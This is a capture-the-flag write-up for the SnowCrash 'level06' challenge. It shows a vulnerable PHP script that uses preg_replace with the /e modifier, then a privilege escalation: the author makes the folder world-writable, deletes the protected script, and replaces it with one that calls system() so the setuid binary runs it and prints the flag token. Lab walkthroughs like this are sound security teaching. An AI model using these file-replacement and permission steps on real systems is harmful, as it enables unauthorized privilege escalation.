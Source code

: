 # level06

```
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

```
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}
function x($y, $z) {
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

level06 executable is launching level06.php, we can't edit level06.php but we can change our folder right and replace the level06.php file to get what we want:

```
level06@SnowCrash:~$ chmod 777 .
level06@SnowCrash:~$ rm level06.php
rm: remove write-protected regular file `level06.php'? y
level06@SnowCrash:~$ echo -e "<?php\nsystem('getflag');\n?>" > level06.php
level06@SnowCrash:~$ ./level06
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

